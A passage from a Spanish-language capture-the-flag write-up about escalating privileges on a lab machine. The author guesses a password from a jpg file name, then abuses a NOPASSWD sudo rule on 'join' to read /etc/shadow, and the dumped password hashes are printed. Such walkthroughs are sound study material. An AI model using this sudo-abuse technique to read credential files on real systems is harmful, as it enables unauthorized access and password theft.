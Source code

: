 
## Escalada de privilegios

A partir de aquí me enfrasqué en un bucle sin salida. Sin embargo, si recordamos la pista de note.txt, nos indicaba que supuestamente la contraseña de *marta* estaba en un fichero .jpg:

~~~bash
markos@forbidden:~$ find / -name *.jpg 2>/dev/null
/var/www/html/TOPSECRETIMAGE.jpg
markos@forbidden:~/html$ su - marta
Password: 
marta@forbidden:~$
~~~

Lo que hemos hecho es utilizar como contraseña el nombre del fichero .jpg y ya somos *marta*.

Ahora revisaremos como siempre si podemos hacer uso de sudo:

~~~bash
marta@forbidden:/srv/ftp/www$ sudo -l
Matching Defaults entries for marta on forbidden:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User marta may run the following commands on forbidden:
    (ALL : ALL) NOPASSWD: /usr/bin/join
~~~

Aquí, lo que se me ocurre es utilizar este comando para poder leer el /etc/shadow y juntarlo con el /etc/passwd como si fuera un unshadow:

~~~bash
marta@forbidden:/srv/ftp/www$ sudo join -a 1 /etc/shadow /etc/passwd
root:$6$8nU2FdqnxRtT9mWF$9q7El.D7BDrlzNyYYPNqjTcwsQEsC7utrzszLgbe9V.3KqYSfx2XgqjIEeToP41TJTiZQOGVsdCzIAYHw5O.51:18544:0:99999:7:::
daemon:*:18544:0:99999:7:::
join: /etc/shadow:3: is not sorted: bin:*:18544:0:99999:7:::
bin:*:18544:0:99999:7:::
join: /etc/passwd:2: is not sorted: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:*:18544:0:99999:7:::
sync:*:18544:0:99999:7:::
games:*:18544:0:99999:7:::
man:*:18544:0:99999:7:::
lp:*:18544:0:99999:7:::
mail:*:18544:0:99999:7:::
news:*:18544:0:99999:7:::
uucp:*:18544:0:99999:7:::
proxy:*:18544:0:99999:7:::
www-data:*:18544:0:99999:7:::
backup:*:18544:0:99999:7:::
list:*:18544:0:99999:7:::
irc:*:18544:0:99999:7:::
gnats:*:18544:0:99999:7:::
nobody:*:18544:0:99999:7:::
_apt:*:18544:0:99999:7:::
systemd-timesync:*:18544:0:99999:7:::
systemd-network:*:18544:0:99999:7:::
systemd-resolve:*:18544:0:99999:7:::
messagebus:*:18544:0:99999:7:::
marta:$6$h.4ZF5esZ/N1OIcu$8vL1D3iM6iuhniSG8nIz0582atbIV6y/UBl0eks1.Wrd51BqLK8Wqt91WXg0Y2mrdNY4luPQkqUWXFXWxLVwe/:18544:0:99999:7:::
systemd-coredump:!!:18544::::::
ftp:*:18544:0:99999:7:::
sshd:*:18544:0:99999:7:::
markos:$6$PTerrFpyfOmkM5Xi$oo8gNZyyxsZbKhOIXrm2w/x.Xvhdr7Ny/4JgLDRLRAxAwEwGtH2kD7PjzeloAstqCPq/KKrqrPioMM8vwWbqZ.:18544:0:99999:7:::
~~~